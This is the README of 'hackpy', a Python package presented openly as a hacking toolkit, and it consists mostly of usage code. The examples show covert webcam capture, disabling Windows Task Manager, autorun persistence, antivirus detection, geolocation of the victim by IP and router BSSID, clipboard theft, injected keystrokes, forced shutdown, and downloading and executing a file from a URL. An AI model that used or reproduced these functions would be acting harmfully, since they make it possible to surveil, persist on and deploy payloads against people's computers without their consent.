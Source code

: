![Python](https://www.python.org/static/img/python-logo@2x.png)
# `pip install hackpy` :bomb:

# Example usage:
``` python
# Import modules
import os
import hackpy
```


# Webcam screenshot
``` python
hackpy.webcam(filename = 'screenshot.png', delay = 4500, camera = 1)
```

# TaskManager
``` python
# If process iexplore.exe found:
if hackpy.taskmanager.find('iexplore.exe') == True:
    # Stop iexplore.exe process
    hackpy.taskmanager.kill('iexplore.exe') 
    # start firefox.exe process
    hackpy.taskmanager.start('firefox.exe')
    
# Return dictonary with all processes
for process in hackpy.taskmanager.list(): 
    print( process )

hackpy.taskmanager.disable() # Disable windows taskmgr.exe
hackpy.taskmanager.enable()  # Enable windows taskmgr.exe
```

# Autorun
``` python
# Add cmd.exe to startup
hackpy.autorun('C:\\Windows\\System32\\cmd.exe', state = True)

# Remove cmd.exe from startup
hackpy.autorun('C:\\Windows\\System32\\cmd.exe', state = False)
```

# Detect installed antivirus software on computer:
``` python
data = hackpy.detect_protection()
for antivirus in data:
    print('[!] - Antivirus detected: ' + antivirus + ', install path: ' + data[antivirus])
```

# Information about you IP:
``` python
data = hackpy.whois()
print('[?] - You IP is: ' + data['query'])
print('[?] - You live in: ' + data['country'] + ', country code: ' + data['countryCode'])
# Return dict: {"query", "status", "country", "countryCode", "region", "regionName", "city", "zip", "lat", "lon", "timezone", "isp", "org", "as", "local"}

# Information about other IP:
data = hackpy.whois('216.58.215.110')
print('[?] - Other Information about IP:\n' + str(data))
# Return dict: {"query", "status", "country", "countryCode", "region", "regionName", "city", "zip", "lat", "lon", "timezone", "isp", "org", "as"}

# Get geodata about you IP:
data = hackpy.geoplugin()
print('[?] - Latitude: ' + data['geoplugin_latitude'])
# Return dict: {"geoplugin_request", "geoplugin_status", "geoplugin_delay", "geoplugin_credit", "geoplugin_city", "geoplugin_region", "geoplugin_regionCode", "geoplugin_regionName", "geoplugin_areaCode", "geoplugin_dmaCode", "geoplugin_countryCode", "geoplugin_countryName", "geoplugin_inEU", "geoplugin_euVATrate", "geoplugin_continentCode", "geoplugin_continentName", "geoplugin_latitude", "geoplugin_longitude", "geoplugin_locationAccuracyRadius", "geoplugin_timezone", "geoplugin_currencyCode", "geoplugin_currencySymbol", "geoplugin_currencySymbol_UTF8", "geoplugin_currencyConverter"}
```

# Get router bssid:
``` python
bssid_string = hackpy.router() # BETA
# Find LATITUDE and LONGITUDE with router BSSID:
data = hackpy.bssid_locate(bssid_string)
print('LATITUDE: ' + str(data['lat']) + ', LONGITUDE: ' + str(data['lon']) + ', RANGE: ' + str(data['range']))
```

# Windows messagebox:
``` python
hackpy.messagebox('error', 'LOL', 'System has been killed :D') # none, info, error, warning, question types
```

# Nircmdc commands
``` python
# You can run nircmdc commands in python
hackpy.command.nircmdc('monitor off')
hackpy.command.nircmdc('speak text \"HAHAHAHAHHAH IM FIND YOU!\"')

# Nircmdc reference: https://nircmd.nirsoft.net
```

# System commands
``` python
hackpy.command.system('shutdown -s -t 260')
```

# SendKeyPress:
``` python
hackpy.sendkey('Hello bro{ENTER}')
# Other keys: https://pastebin.com/Ns3P7UiH
```

# Clipboard
``` python
# Get text from clipboard:
data = hackpy.clipboard.get()
print('Text in clipboard is ' + data)

# Set text to clipboard:
hackpy.clipboard.set('Hello from LimerBoy and HackPy!!')
```

# Download python and install it:
``` python
if hackpy.check_python() == False: # Check if python installed on system. False - not installed, True - installed.
    print('Python is not installed, trying to install!')
    hackpy.install_python('3.6.0', path = 'C:\\python36') # Default version is 3.7.0 and install path is C:\python37
else:
    print('Python is installed!')
```

# Load and execute file from internet
``` python
file = hackpy.wget(url)
os.startfile(file)
```

### Nircmdc reference: *https://nircmd.nirsoft.net*

![SITE](https://i.ibb.co/znRLN0D/image.png)
